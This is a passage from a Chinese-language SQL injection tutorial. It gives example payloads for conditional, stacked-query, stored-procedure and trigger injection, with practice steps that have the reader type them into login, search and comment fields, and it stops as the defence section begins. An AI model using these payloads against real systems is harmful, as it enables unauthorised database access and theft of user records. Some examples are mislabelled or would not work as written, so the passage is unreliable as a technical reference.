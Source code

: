 **5.2 条件注入**

- 理解条件注入的原理，如通过条件语句来注入代码。

  ```sql
  -- 示例：条件注入
  ' AND (SELECT COUNT(*) FROM users) > 1--
  ```
- 实践：输入 ' AND (SELECT COUNT(*) FROM users) > 1-- 来确认注入点的有效性，观察页面响应。

  ```text
  在登录表单中输入 ' AND (SELECT COUNT(*) FROM users) > 1-- 来确认注入点的有效性，观察页面响应。
  ```

**5.3 子查询注入**

- 理解子查询注入的原理，如通过子查询来注入代码。

  ```sql
  -- 示例：子查询注入
  '; SELECT * FROM users--
  ```
- 实践：输入 '; SELECT * FROM users-- 来执行子查询，观察返回的结果。

  ```text
  在搜索功能中输入 '; SELECT * FROM users-- 来执行子查询，观察返回的结果。
  ```

**5.4 存储过程注入**

- 理解存储过程注入的原理，如通过注入存储过程来实现攻击。

  ```sql
  -- 示例：存储过程注入
  '; CREATE PROCEDURE p() BEGIN SELECT * FROM users; END; CALL p();--
  ```
- 实践：输入 '; CREATE PROCEDURE p() BEGIN SELECT * FROM users; END; CALL p();-- 来创建并执行存储过程，观察返回的结果。

  ```text
  在评论系统中输入 '; CREATE PROCEDURE p() BEGIN SELECT * FROM users; END; CALL p();-- 来创建并执行存储过程，观察返回的结果。
  ```

**5.5 触发器注入**

- 理解触发器注入的原理，如通过注入触发器来实现攻击。

  ```sql
  -- 示例：触发器注入
  '; CREATE TRIGGER t BEFORE INSERT ON users FOR EACH ROW BEGIN SELECT * FROM users; END;--
  ```
- 实践：输入 '; CREATE TRIGGER t BEFORE INSERT ON users FOR EACH ROW BEGIN SELECT * FROM users; END;-- 来创建触发器，观察返回的结果。

  ```text
  在评论系统中输入 '; CREATE TRIGGER t BEFORE INSERT ON users FOR EACH ROW BEGIN SELECT * FROM users; END;-- 来创建触发器，观察返回的结果。
  ```

### 6. 防御 SQL 注入

**6.1 使用参数化查询**
